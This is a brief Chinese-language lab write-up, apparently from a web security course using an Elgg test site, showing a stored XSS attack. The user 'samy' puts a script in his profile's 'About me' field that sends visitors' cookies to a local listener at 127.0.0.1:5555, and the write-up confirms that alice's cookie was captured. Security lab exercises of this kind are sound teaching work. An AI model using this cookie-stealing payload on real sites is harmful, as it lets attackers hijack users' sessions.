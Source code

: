 ### 2.1.1 插入XSS

使用samy登录

修改samy的profile。

在其中的About me字段，**先点击Edit HTML**，添加如下内容

```html
<script>document.write('<img src=http://127.0.0.1:5555?c=' + escape(document.cookie) +  '>'); </script>
```

提交修改

![image-20230530224610125](assets/image-20230530224610125.png)

### 2.1.2 测试

使用alice登录，打开Samy的主页。

通过检查发现了，alice的cookie已经被发出了，攻击成功

![image-20230530224734401](assets/image-20230530224734401.png)
